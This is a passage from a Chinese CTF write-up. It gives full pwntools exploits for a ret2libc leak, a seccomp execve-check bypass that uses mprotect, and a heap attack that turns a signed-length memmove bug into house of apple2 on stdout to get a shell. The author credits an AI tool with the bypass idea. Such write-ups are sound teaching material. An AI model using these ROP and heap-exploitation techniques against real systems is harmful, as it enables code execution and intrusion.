payload = p64(program.plt['puts']) + p64(0) + p64(rbp_safe + 0x10) + p64(leave_ret)
io.sendline(payload)
sleep(1)

### change stderr to puts got

payload = p64(program.got['puts']) + p64(0) + p64(rbp_safe + 0x20) + p64(leave_ret)
io.sendline(payload)
sleep(1)

### leak

libc.address = u64(io.recvline().strip().ljust(8, b'\x00')) - libc.symbols['puts']
log.success("Got libc address: " + hex(libc.address))
sleep(1)

### ret2libc

system = libc.symbols['system']
binsh = next(libc.search(b'/bin/sh'))
pop_rdi = libc.address + 0x000000000002a3e5
ret = pop_rdi + 1

payload = cyclic(0x18) + p64(pop_rdi) + p64(binsh) + p64(ret) + p64(system)
io.sendline(payload)

io.interactive()
```

## seccomp

程序大概是这个逻辑：





先用socketpair获得一对双向套接字fd（`sv[2]`），然后fork子进程，一人分一个sv，用于进程之间的通信。

子进程装了个沙箱，并开了个listener，可以收到来自seccomp的消息。拿到这个listener发给父进程，自己关闭了除了stdin、stdout以外的所有fd。然后就是vuln的巨量栈溢出（程序还给了一堆gadgets和可用函数）。

seccomp的规则很乱，大概描述是这样的：

1. 架构必须是x86_64，否则直接砍
2. 只允许read、write、sendmsg、close、mprotect、brk、exit、exit_group
3. 不允许的系统调用不会直接砍，会**交给父进程裁决**，裁决函数在这：
   
   

而父进程的裁决规则是这样的：

1. 遇到read、write、close、mprotect、brk、rt_sigreturn、getpid、exit、gettid、set_tid_address、clock_gettime、exit_group、set_robust_list、prlimit64、getrandom、rseq这些调用直接通过
2. 从发起系统调用的进程开始，沿着进程树向上走32层（**到这个子进程本身直接停**），如果找到祖先有shell，才给通过
3. 对execve有**特殊判定要求**，满足才给通过，特判函数在这：
   
4. 不通过直接砍

而execve的特判是这样的：

1. 只能执行位于controlled_path（0x407000）的指令
2. 从controlled_path开始复制0x1000字节复制到current_path
3. 如果**实际复制到的字节数**大于7，那么要求current的前八个字必须为deadbeef才给过
4. 小于等于7，要求cache的前八个字必须为deadbeef才给过
5. 如果通过了，在通过前会把current复制到cache

ok，可以开搞了。说实话看完codex分析到这我已经不是很清醒了，第一想法是先用read直接向cache写一个deadbeef，再向controlled写一个binsh，因为binsh只有七字节，父进程只看cache不看current，完美。

但是这个想法踩了两个坑：一方面两个进程各自用一份内存，不互通（被ai纠正是写时复制，但是只看这个cache差不多一个意思），父进程看不到我写的deadbeef；另一方面，从controlled那里读0x1000字不是像某些输入函数一样碰到\0就停了。。。

好吧认栽了，codex提出的想法是，先execve一次deadbeef，这次判通过会让父进程亲自向自己的cache写一个deadbeef。然后execve binsh，在真execve之前用mprotect**把controlled的读权限砍掉**，这样父进程就读不了了，读到字节数小于7，看cache还是deadbeef，而execve时内核还能读到binsh，通了！

根据codex思路整理的exp：

```py

from pwn import *

program = ELF("./pwn")
# io = process("./run.sh")
io = remote("3176516c5a754b6143656b6f7a75494f6d4d443265-p10001.chal.buptmerak.cn", 443, ssl=True, sni="3176516c5a754b6143656b6f7a75494f6d4d443265-p10001.chal.buptmerak.cn")

pop_rdi = 0x00000000004012DA
pop_rsi = 0x00000000004012DF
pop_rdx = 0x00000000004012E4
ret = 0x00000000004012D6
mprotect = 0x00000000004012E9
execve = 0x0000000000401314
read = program.plt['read']
controlled_path = 0x0000000000407000
checked_path_cache = 0x0000000000408000

### 1. use execve check to fill cache with deadbeef

payload = cyclic(0x48)
payload += p64(pop_rdi) + p64(0) + p64(pop_rsi) + p64(controlled_path) + p64(pop_rdx) + p64(0x10) + p64(read)
payload += p64(pop_rdi) + p64(controlled_path) + p64(pop_rsi) + p64(0) + p64(pop_rdx) + p64(0) + p64(execve)

### 2. ban cache read and execve binsh

payload += p64(pop_rdi) + p64(0) + p64(pop_rsi) + p64(controlled_path) + p64(pop_rdx) + p64(0x10) + p64(read)
payload += p64(pop_rdi) + p64(controlled_path) + p64(pop_rsi) + p64(0x1000) + p64(pop_rdx) + p64(2) + p64(mprotect)
payload += p64(pop_rdi) + p64(controlled_path) + p64(pop_rsi) + p64(0) + p64(pop_rdx) + p64(0) + p64(execve)

io.sendafter(b"baby seccomp says: show me your plan", payload)

sleep(1)

io.send(b'deadbeef')
sleep(1)
io.send(b'/bin/sh\x00')

io.interactive()
```

## tree

打开main函数：



是一个进程虚拟机实现的菜单，按格式输指令实现增删改查，先看一下输入之前干了什么：



set_context初始化vmctx，vmctx是一个二分查找树（二分树，但是保证左子节点小于父节点小于右子节点）的管理结构，先看一下二分树的节点结构，长这样：

```c
struct node
{
    size_t size;
    void *chunk_address;
    uint64_t color; // 其实可以看作bool，表示黑红
    struct node *parent;
    struct node *left;
    struct node *right;
}
```

我们每次申请一个堆块前都会先申请一个小的块，用来装这个节点，这里叫他索引块。

vmctx的结构是这样：

```c
struct vmctx
{
    struct node *root;
    struct node HEAD;
}
```

但实际上，后面这个哨兵头节点HEAD没什么卯月，只是用来替代nullptr，防止走到树叶不小心碰到空指针炸了。

初始化二分树之后，程序申请了一个块，记下地址就释放了，可能是为了记一下相对基址和后续堆块地址的上边界什么的。总之现在开始看看输指令。

每个指令开头统一是1字节操作码 + 7字节对齐，1增2删3改4查FF退出。其中增删查后面只需要跟一个8字节的长度或者序号（这个序号是根据上面记的这个上边界算出来的偏移），而改还要再额外跟一个长度 + 写入的数据。

```c
struct cmd
{
    char opcode;
    char padding[7];
    uint64_t arg; // 对于增，这里是长度，对于删改查，这里是序号
    
    // 只对于改，这里是写入数据长度 + 写入数据
    int64_t len; // 注意int
    char data[];
}
```

每次可以输入多条指令，输完记好的指令头尾地址开始一条条执行，每执行一条头指针向后移动。执行前if_overflow通过头尾指针来确认剩余指令的长度，如果这个长度不够，说明你要执行的这条指令是断的，直接重新从头开始输入。

其中增删查指令就是16字节，是写死的检测，改由于后面就跟着写入的数据要特判，而这个特判有毒：



如果指令头尾差大于等于你指定的数据长度 + 24（操作码、对齐、序号、长度加起来的总长度），那说明指令完整。看起来没毛病，但是这个比较是有符号整数比较，如果我指定长度是负数？理论上该给你掐了，但是程序会照常提取这个数，算完右边肯定比左边小，还会照常执行。

在具体探究这里传个负长度有什么影响之前，先挨个看看四个指令的执行方式，以及怎么利用的二分树：



增操作会先申请索引块，然后申请我要的块，检查返回地址：



如果没问题，索引块里记录块大小 + 地址，插入二分树，依次记录节点颜色、父节点、左子节点、右子节点。

如果一开始是空树（vmctx的root指向自己的哨兵），那么直接改root，否则有根，从根开始捋。




树里排序比的是对应堆块的地址大小，摸到这应该就够了，后面的树平衡应该不用看了（

删操作会根据输入的序号计算对应块地址，用这个地址找到索引块，先从二分树删除，再释放索引块和对应的块：




改操作先找索引块，检查我指定写入的长度是否合法（但是还是有符号比较）：



然后开改，重点来了，这个就是glibc里的memmove函数，他会先进行一个激烈的分类讨论：



我们只看传入负数的情况，在这里长度终于变无符号了，成了一个大正数，因此直接看len > 0x80的情况。虽然我瞪眼半天还没看太明白什么原理，不过还是画个草图吧：



由于在增的时候，分配完索引块立马分配我们的堆块，这说明这样传一个负数，有可能改到索引块，或者说**可以篡改二分树**。

查操作就比较简单了，就是单纯的write打印。



至此分析完毕，可以开打了。

我们先泄露freed_chunk的地址，方便后续计算树内节点的序号。高版本tcache有一个safe-linking机制，会加密fd：

```c
fd = next ^ (mem >> 12);
```

mem就是堆块数据区的地址，next是下一个块的数据区地址，然而如果我tcache里只放一个空闲块，next = 0，那这个fd加密也是个滚木。。然后用unsorted bin泄露libc基址（这下看懂了），算出stdout的位置。

接下来篡改根节点的chunk_address，根据memmove内部的逻辑（实则codex的分析），可以得出当输入长度为len时，复制从src + len - 0x10到dest + len - 0x10。而从堆块数据区往前数，块头0x10，索引块内节点0x30，address偏移是8，得出len - 0x10 = -0x38，那么len就是-0x28！不过要注意一下python不是定长64位，用2^64 - 0x28即可得出int64的-0x28。

最后就是痛苦的house of apple2打stdout，wide vtable里塞个ogg日出shell，收工！

exp：

```py
from pwn import *

# context.log_level = "debug"
def check():
    if io.poll() is None:
        gdb.attach(io)
        pause()
libc = ELF("./libc.so.6")
io = process("./tree")

####################################################################
### lambdas
####################################################################

def add(len):
    payload = b"\x01" + b"\x00" * 7 + p64(len)
    io.sendafter(b"input your code: \n", payload)

def delete(index):
    payload = b"\x02" + b"\x00" * 7 + p64(index)
    io.sendafter(b"input your code: \n", payload)

def edit(index, len, data):
    payload = b"\x03" + b"\x00"*7 + p64(index) + p64(len) + data
    io.sendafter(b"input your code: \n", payload)

def show(index):
    payload = b"\x04" + b"\x00"*7 + p64(index)
    io.sendafter(b"input your code: \n", payload)

def edit_multi_part(index, len, data):
    return b"\x03" + b"\x00"*7 + p64(index) + p64(len) + data

####################################################################
### main process
####################################################################

# 1. get heap address(freed chunk) by tcache

add(0x100) # root always
delete(0x2e0)
add(0x100)
show(0x2e0)

heap_address = u64(io.recv(8)) << 12
log.success("Got heap address: " + hex(heap_address))

# 2. get libc address by unbin

add(0x500)
add(0x100)
delete(0x430)
add(0x500) # blocked
show(0x430)

libc.address = u64(io.recv(8)) - (0x78305761ace0 - 0x783057400000)
log.success("Got libc address: " + hex(libc.address))

delete(0x430)
delete(0x980)

# 3. override 2x tree root node, change the chunk_address to stdout

stdout = libc.address + 0x000000000021B780
sp_len = 0x60
i64_minus = 2 ** 64 - 0x28

data = b'\x00' * 0x38 + p64(0x400) + p64(stdout)
data = data.ljust(0x60, b'\x00')

payload = edit_multi_part(0x2e0, sp_len, data) + edit_multi_part(0x2e0, i64_minus, b'\x00' * 0x20)
io.sendafter(b"input your code: \n", payload)

# 4. house of apple2, leading program to ogg

wfile_jumps = libc.address + 0x2170c0
ogg = libc.address + 0xebc45

data  = b'\x00' * 0xa0 + p64(stdout + 0x100)
data += b'\x00' * 0x18 + p64(1)
data += b'\x00' * 0x10 + p64(wfile_jumps)
data += b'\x00' * 0x40 + p64(1)
data += b'\x00' * 0xb8 + p64(stdout + 0x200)
data += b'\x00' * 0x80 + p64(ogg)
data  = data.ljust(0x270, b'\x00')

payload = edit_multi_part(stdout - heap_address, 0x270, data) + b'\xff'
io.sendafter(b"input your code: \n", payload)


io.interactive()
```

## 后记

太痛了，有几道题不用ai做不出来，看个乐呵就行

希望奖金多多，我要买艾希众筹（？